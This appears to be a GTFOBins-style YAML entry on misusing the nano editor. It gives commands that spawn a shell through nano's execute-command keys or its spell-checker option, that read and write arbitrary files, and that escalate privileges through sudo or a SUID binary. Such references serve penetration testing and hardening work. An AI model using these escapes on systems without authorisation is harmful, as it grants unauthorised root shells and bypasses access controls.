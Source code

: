 functions:
  shell:
    - code: |
        nano
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        nano -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  limited-suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./nano -s /bin/sh
        /bin/sh
        ^T
  sudo:
    - code: |
        sudo nano
        ^R^X
        reset; sh 1>&0 2>&0
---
